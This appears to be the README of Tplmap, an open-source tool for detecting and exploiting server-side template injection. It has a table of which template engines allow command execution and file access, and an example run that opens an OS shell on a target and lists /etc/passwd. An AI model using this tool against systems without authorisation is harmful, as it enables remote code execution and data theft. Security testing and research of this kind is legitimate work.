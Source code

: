 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). 

This can be used by developers, penetration testers, and security researchers to detect and exploit vulnerabilities related to the template injection attacks.

The technique can be used to compromise web servers' internals and often obtain Remote Code Execution (RCE), turning every vulnerable application into a potential pivot point.

The modular approach allows any contributor to extend the support to other templating engines or introduce new exploitation techniques. The majority of the techniques currently implemented came from the amazing research done by [James Kett, PortSwigger][1].

> The application is currently under heavy development and misses some functionalities.

Supported template engines
--------------------------

| Template engine    | Detection | command execution | Code evaluation | File read | File write |
|--------------------|-----------|-------------------|-----------------|-----------|------------|
| Mako               |  yes      | yes               | python          | yes       | yes        |
| Jinja2             |  yes      | yes               | python          | yes       | yes        |
| Jade               |  yes      | yes               | javascript      | yes       | yes        |
| Smarty (unsecured) |  yes      | yes               | PHP             | yes       | yes        |
| Freemarker         |  yes      | yes               | no              | yes       | yes        |
| Velocity           |  yes      | no                | no              | no        | no         |
| Twig               |  yes      | no                | no              | no        | no         |
| Smarty (secured)   |  yes      | no                | no              | no        | no         |

Example
--------

```
$ ./tplmap.py -u 'http://www.target.com/?id=*'
[+] Found placeholder in GET parameter 'inj'
[+] Testing reflection with tag ${} and variances to escape code context
[+] Confirmed reflection with tag '${}' by Mako plugin
[+] Confirmed reflection with tag '${}' by Freemarker plugin
[+] Tplmap identified the following injection point:

  Engine: Freemarker
  Template: ${}
  Context: text
  OS: linux
  Capabilities:
    Code evaluation: no
    OS command execution: yes
    File write: yes
    File read: yes

[+] Rerun tplmap providing one of the following options:
    --os-cmd or --os-shell to access the underlying operating system
    --file-write to upload files to the server
    --file-read to download remote files

$ ./tplmap.py -u 'http://www.target.com/?id=*' --os-shell
[+] Run commands on the operating system.
linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $
```

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
